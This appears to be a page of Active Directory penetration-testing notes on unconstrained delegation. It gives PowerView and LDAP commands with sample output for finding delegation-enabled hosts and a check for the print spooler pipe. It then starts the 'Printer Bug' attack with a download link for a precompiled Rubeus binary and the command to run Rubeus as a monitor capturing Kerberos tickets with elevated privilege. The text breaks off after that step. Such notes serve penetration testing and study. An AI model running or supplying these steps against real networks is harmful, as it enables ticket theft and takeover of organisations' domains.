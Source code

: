 ### Detect

**1. PowerView.ps1**

```bash
# Commands (PowerView)
. .\PowerView.ps1
Get-DomainComputer -Unconstrained -Properties dnshostname

# Output (PowerView)
dnshostname
-----------
DC01.bank.local
VULN01.bank.local

# Commands (adsisearcher)
 ([adsisearcher]"(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))").FindAll()
 
# Output (adsisearcher)
Path                                                  Properties
----                                                  ----------
LDAP://CN=DC01,OU=Domain Controllers,DC=bank,DC=local {ridsetreferences, logoncount, codepage, objectcategory...}
LDAP://CN=VULN01,CN=Computers,DC=bank,DC=local        {logoncount, codepage, objectcategory, iscriticalsystemobject...}
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811224149.png)

2. Check if a spool service is running on a remote host

```bash
ls \\dc01\pipe\spoolss
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811225305.png)

### Attack

**1. Printer Bug**

- Download **Rebues.exe**

```bash
# Download Rubeus
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
```

- Run this command in Rubeus **(with Elevated Privilege)**

```bash
# Command
.\Rubeus.exe monitor /interval:5 /nowrap
```
